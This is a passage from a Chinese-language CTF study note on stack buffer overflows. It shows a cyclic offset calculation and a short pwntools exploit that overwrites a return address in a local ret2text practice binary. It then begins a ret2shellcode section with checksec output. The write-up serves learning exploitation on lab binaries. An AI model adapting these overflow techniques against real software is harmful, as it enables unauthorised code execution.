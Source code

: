 返回给出了`Invalid address 0x62616164`的报错，说明我们上面那串字符最后覆盖到ret addr后的结果是`0x62616164`，再拿`cyclic`计算一下偏移即可：

```
feng@ubuntu:~/Desktop$ cyclic -l 0x62616164
112

```

编写一下exp即可：

```python
from pwn import *

p = process("./ret2text")
target = 0x0804863A
payload = b'A'*112+p32(target)
p.sendline(payload)
p.interactive()

```

## ret2shellcode

ret2shellcode，即控制程序执行 shellcode 代码。shellcode 指的是用于完成某个功能的汇编代码，常见的功能主要是获取目标系统的 shell。**一般来说，shellcode 需要我们自己填充。这其实是另外一种典型的利用方法，即此时我们需要自己去填充一些可执行的代码**。

在栈溢出的基础上，要想执行 shellcode，需要对应的 binary 在运行时，shellcode 所在的区域具有可执行权限。

题目见ctfwiki。

首先checksec查看一下保护：

```shell
feng@ubuntu:~/Desktop$ checksec ret2shellcode
[*] '/home/feng/Desktop/ret2shellcode'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
feng@ubuntu:~/Desktop$ 

```

什么保护都没开，32位程序而且存在RWX的段。

IDA看一下，和上一题基本一样，只不过没有system了：

![image-20220115130535446](栈溢出学习.assets/image-20220115130535446.png)
